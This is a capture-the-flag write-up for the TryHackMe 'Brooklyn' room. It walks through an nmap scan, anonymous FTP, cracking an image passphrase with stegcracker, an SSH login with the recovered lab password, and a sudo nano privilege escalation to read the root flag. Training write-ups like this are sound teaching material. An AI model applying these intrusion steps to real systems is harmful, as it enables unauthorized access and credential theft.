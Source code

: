 ```yaml
---
title: TryHackMe - brooklyn
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, nmap, privesc, ftp, ssh, http, stenography, SUID]
image:
    path: /assets/img/Brooklyn/0.jpeg
    alt: brooklyn
---
```


# Brooklyn

This room is aimed for beginner level hackers but anyone can try to hack this box.  
There are two main intended ways to root the box.  


# Tasks
- Read the User and root flag.  

# nmap

## ip = `10.10.36.221`

## Command 
```sh

 nmap -sV -sC -A -v 10.10.36.221 |tee nmap.txt
```
## Results
```sh
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r-- 1 0 0
119 May 17 2020 note_to_jake.txt
| ftp-syst:
| STAT:
| FTP server status:
| Connected to ::ffff:10.8.172.59
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 2
| vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
| 256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_ 256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods:
|_ Supported Methods: POST OPTIONS HEAD GET
|_http-title: Site does not have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

# ftp_21
Has `anonymous` log in allowed and has a text file in it.  
 ![](/assets/img/Brooklyn/1.png)
 
## Details
![](/assets/img/Brooklyn/2.png)

Two users  
- `Jake` = has a weak password  
- `holt` =Looks like he has some privileges   

# http_80

## To Do list
- visit he site
- View the source code
- visit robots.txt
- run gobuster

The site has an image and the source code tells us something to do with stenography.  
**![](/assets/img/Brooklyn/2.png)

Download the image.  
Use the following command to crack the image passphrase.  
```sh
stegcracker brooklyn99.jpg /usr/share/wordlists/rockyou.txt 
```
![](/assets/img/Brooklyn/4.png)

From This we get  
![](/assets/img/Brooklyn/5.png)

- user = `holt`
- password = `fluffydog12@ninenine`

# ssh_22

## Details

- users = `jake` and `holt`
- port 22 open
- Password for `holt` = `fluffydog12@ninenine`


Lets try ssh to holt using the following info

## ssh login
```sh
	ssh holt@10.10.36.221	
	#password = fluffydog12@ninenine
```  
![](/assets/img/Brooklyn/6.png)

# Privilege Escalation

## To Do List
- sudo -l  
- cat /etc/crontab  

![](/assets/img/Brooklyn/7.png)
## sudo -l
We get that we can run `/bin/nano` with root privileges without a password.  
I will try to read the root flag since i have the flag name format from user .txt.  
```sh
 	sudo /bin/nano /root/root.txt
 ```
![](/assets/img/Brooklyn/8.png)
 
